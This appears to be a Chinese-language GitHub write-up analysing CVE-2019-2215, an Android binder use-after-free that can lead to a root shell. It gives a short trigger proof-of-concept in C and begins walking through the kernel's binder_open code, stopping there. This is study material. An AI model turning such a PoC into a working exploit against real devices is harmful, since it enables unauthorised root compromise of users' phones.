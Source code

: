 # CVE-2019-2215

复现环境：android 10 kernel: Linux localhost 4.14.150+    arch:x86_64架构

exp只适用于x86(主要是在patch addr_limit上) 其他的架构要根据addr_limit在thread_info或是thread_struct的偏移修改.

## 漏洞简述

CVE-2019-2215是一个谷歌P0团队发现的与binder驱动相关的安卓内核UAF漏洞,配合内核信息泄漏可以实现任意地址读写,进而可以通过权限提升获取一个root权限的shell。

 

## 漏洞分析

主要来根据poc来说明漏洞及其触发

```c
// poc.c
 #include  #include  #include  #include  
 #define BINDER_THREAD_EXIT 0x40046208ul
 
 int main() {
     int fd, epfd;
     struct epoll_event event = {.events = EPOLLIN};
 
     fd = open("/dev/binder", O_RDONLY);
     epfd = epoll_create(1000);
     epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
     ioctl(fd, BINDER_THREAD_EXIT, NULL);
     epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event);
 }
```

首先是第一句

```c
 fd = open("/dev/binder", O_RDONLY);
```

具体调用的是binder_open

```c
// drivers/android/binder.c 
static const struct file_operations binder_fops = {
     [...]
     .open = binder_open,
     [...]
 };
static int binder_open(struct inode *nodp, struct file *filp)
 {
         struct binder_proc *proc;
         [...]
         proc = kzalloc(sizeof(*proc), GFP_KERNEL);
         if (proc == NULL)
                 return -ENOMEM;
         [...]
         filp->private_data = proc;
         [...]
         return 0;
 }
```
